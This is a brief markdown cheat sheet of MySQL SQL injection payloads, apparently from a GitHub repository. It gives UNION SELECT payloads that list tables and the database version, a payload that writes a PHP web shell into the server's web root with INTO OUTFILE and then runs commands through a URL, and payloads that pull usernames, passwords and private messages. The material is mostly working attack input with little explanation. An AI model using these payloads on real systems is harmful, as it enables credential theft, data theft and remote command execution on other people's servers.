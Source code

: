 # uploading File with Mysql

Basic:
```<VALUE>' union select 1, @@version-- -```
```<VALUE>' union select 1, table_name FROM information_schema.tables-- -```

uploading:
```<VALUE>' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED BY <Sting to Text"php rev shell">#```

> then go to http://example.com/shell.php?cmd=`<exec>`

#List For Extract Data

1: 
```
12 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = database()
```
2: 
```
12 union select 1,group_concat(username,password),3,4 from users   // select what u see in Data //
```
3: 
```
12 union select 1,group_concat(message_content),3,4 from messages    
```
